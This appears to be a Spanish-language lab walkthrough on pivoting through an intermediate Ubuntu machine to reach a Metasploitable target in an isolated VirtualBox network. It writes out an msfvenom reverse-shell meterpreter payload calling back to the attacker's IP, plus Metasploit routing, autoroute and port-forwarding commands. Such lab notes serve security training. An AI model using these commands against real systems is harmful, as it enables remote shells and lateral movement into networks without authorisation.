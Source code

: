 ## CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Pasted image 20230717133814.png]]
Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Pasted image 20230717134004.png]]
Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Pasted image 20230717134609.png]]
MÁQUINA UBUNTU INTERMEDIA:
![[Pasted image 20230717134629.png]]
MÁQUINA METASPLOITABLE FINAL:
![[Pasted image 20230717134647.png]]
De tal forma que la máquina kali tiene conectividad solo con la máquina ubuntu; y la máquina ubuntu tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20230717134751.png]]
# PIVOTING
Lo primero será generar una sesión de meterpreter entre la máquina atacante y la de ubuntu, por lo que usamos el multi/handler con metasploit:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
![[Pasted image 20230717125804.png]]
![[Pasted image 20230717125829.png]]
Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
![[Pasted image 20230717125603.png]]
Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20230717125653.png]]
Y en metasploit habremos recibido una sesión de meterpreter:
![[Pasted image 20230717125857.png]]
En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20230717162121.png]]
Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Pasted image 20230717162209.png]]
Ahora debemos usar el comando route add y añadimos la IP objetivo a la que no tenemos acceso y hayamos visto al ejecutar el comando ipconfig con la siguiente estructura:
```bash
route add <network> <netmask> <session_id>

# Ejemplo de ello:

route add 20.20.20.4 255.255.255.0 1
```
![[Pasted image 20230717162255.png]]
Y ahora desde metasploit, podemos usar el módullo de http_version para escanear a la máquina metasploitable, donde debemos añadir su IP con el set RHOSTS:
![[Pasted image 20230717162622.png]]
Ahora vamos a realizar el port forwarding, de tal forma que por el puerto 5000 de nuestra máquina Kali vamos a estar recibiendo el tráfico del puerto 22 de la máquina final metasploitable; y eso lo hacemos con este comando:
```bash
portfwd add -l 5000 -p 80 -r 20.20.20.6
```
![[Pasted image 20230717190710.png]]
Y vemos que tenemos conexión al puerto 80 de la máquina objetivo desde nuestro puerto 5000 de mi máquina Kali:
![[Pasted image 20230717190746.png]]
También podemos redirigir más de un puerto a la vez, ahora vamos a redirigir el tráfico del puerto 22 de la máquina metasploitable a la atacante:
![[Pasted image 20230717190952.png]]
Y vemos que tenemos conexión vía SSH:
![[Pasted image 20230717191007.png]]
 -----------------------

Tenemos la interfaz de red objetivo:
![[Pasted image 20230730154047.png]]
Y usaremos el módulo de autoroute:
```bash
use post/multi/manage/autoroute
```
![[Pasted image 20230730154643.png]]
Y ahora vamos a enviarnos el tráfico del puerto 80 al puerto 5000 de nuestra máquina local:
![[Pasted image 20230730155018.png]]
![[Pasted image 20230730155027.png]]
